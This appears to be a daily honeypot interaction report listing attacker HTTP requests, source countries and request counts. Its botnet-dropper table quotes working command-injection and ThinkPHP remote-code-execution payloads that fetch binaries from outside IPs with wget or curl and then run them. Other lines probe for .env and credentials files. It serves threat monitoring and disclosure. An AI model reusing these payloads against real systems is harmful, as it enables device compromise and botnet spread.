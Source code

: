 ```yaml
---
title: "Report: 2025-03-27 "
date: 2025-03-27
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-27
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |
| DE               |                    |

## botnet_dropper_behaviour
list of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code)

| remote_addr     | request                                                                                                                                                                                                                                        |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 175.107.1.221   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                          |
| 117.72.77.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 87.121.84.41    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                   |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;rm+-rf+/tmp/*;cd+/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                 |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.87.43.37%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                       |
| 222.133.54.222  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 84.195.192.75   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |

## request
list of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                  |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------|
| 143 |                     5 | GET /static/css/chunk-fffbd800.3e1a8b72.css HTTP/1.1                                                     |
| 238 |                     2 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=busybox%20reboot%20&&%20reboot HTTP/1.1 |
| 280 |                     1 | GET /PbBh HTTP/1.1                                                                                       |
| 285 |                     1 | GET /ARVt HTTP/1.1                                                                                       |
| 307 |                     1 | \x00\x0E\x08\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                         |
| 308 |                     1 | \x00\x0E8\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                            |
| 332 |                     1 | GET /config.phpinfo HTTP/1.1                                                                             |
| 385 |                     1 | \x00\x0E\x08v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                           |
| 395 |                     1 | \x00\x0E8v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                              |
| 423 |                     1 | POST /cgi-bin/cgi_main.cgi HTTP/1.1                                                                      |
| 446 |                     1 | GET /socket.io/1/?t=1743038285763 HTTP/1.1                                                               |
| 475 |                     1 | GET /lib/.env HTTP/1.1                                                                                   |
| 501 |                     1 | GET /OdinHttpCall1743114175 HTTP/1.1                                                                     |
| 516 |                     1 | PORT 81, HEAD /robots.txt HTTP/1.0                                                                       |
| 524 |                     1 | GET /Nmap/folder/check1743111188 HTTP/1.1                                                                |
| 525 |                     1 | GET /NmapUpperCheck1743111188 HTTP/1.1                                                                   |
| 526 |                     1 | GET /nmaplowercheck1743111188 HTTP/1.1                                                                   |
| 531 |                     1 | GET /odinhttpcall1743050364 HTTP/1.1                                                                     |
| 548 |                     1 | GET /Odin/http/call1743114175 HTTP/1.1                                                                   |
| 557 |                     1 | GET /odinhttpcall1743114175 HTTP/1.1                                                                     |
| 558 |                     1 | GET /OdinHttpCall1743050364 HTTP/1.1                                                                     |
| 561 |                     1 | GET /stage/.env HTTP/1.1                                                                                 |
| 567 |                     1 | GET /Odin/http/call1743050364 HTTP/1.1                                                                   |
| 665 |                     1 | GET /credentials HTTP/1.1                                                                                |
| 687 |                     1 | GET /API/.env HTTP/1.1                                                                                   |
| 695 |                     1 | GET /skin/default_1/images/logo.png HTTP/1.1                                                             |
| 697 |                     1 | GET /image/lgbg.jpg HTTP/1.1                                                                             |
| 706 |                     1 | GET /nobody/favicon.ico HTTP/1.1                                                                         |
| 711 |                     1 | GET /Odin/http/call1743060215 HTTP/1.1                                                                   |
| 712 |                     1 | GET /OdinHttpCall1743060215 HTTP/1.1                                                                     |
| 713 |                     1 | GET /odinhttpcall1743060215 HTTP/1.1                                                                     |
| 716 |                     1 | GET /infos/ HTTP/1.1                                                                                     |

## country_iso_code
list of country names and number of requests received by IPs located in these countries

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   647 | NL                 |
|  1 |                   475 | FR                 |
|  2 |                   411 | US                 |
|  3 |                   408 | BG                 |
|  4 |                   231 | DE                 |
|  5 |                   161 | GB                 |
|  6 |                   161 | CN                 |
|  7 |                    92 | HK                 |
|  8 |                    82 | PL                 |
|  9 |                    54 | SG                 |
| 10 |                    50 | CH                 |
| 11 |                    47 | VN                 |
| 12 |                    35 | JP                 |
| 13 |                    26 | SC                 |
| 14 |                    25 | RU                 |
| 15 |                    17 | IN                 |
| 16 |                    13 | CA                 |
| 17 |                    12 | GE                 |
| 18 |                    11 | NG                 |
| 19 |                    11 | AU                 |
| 20 |                    10 | BE                 |
| 21 |                    10 | GH                 |
| 22 |                     9 | NO                 |
| 23 |                     8 | ID                 |
| 24 |                     7 | IR                 |
| 25 |                     7 | AZ                 |
| 26 |                     7 | LT                 |
| 27 |                     7 | PT                 |
| 28 |                     6 | TH                 |
| 29 |                     6 | ZA                 |
| 30 |                     5 | TR                 |
| 31 |                     4 | BR                 |
| 32 |                     3 | LV                 |
| 33 |                     3 | UA                 |
| 34 |                     3 | IE                 |
| 35 |                     2 | RO                 |
| 36 |                     2 | KR                 |
| 37 |                     1 | BD                 |
| 38 |                     1 | PH                 |
| 39 |                     1 | PK                 |
| 40 |                     1 | PE                 |
| 41 |                     1 | MD                 |
| 42 |                     1 | MC                 |
| 43 |                     1 | AE                 |
| 44 |                     1 | YE                 |
| 45 |                     1 | IT                 |
| 46 |                     1 | CO                 |
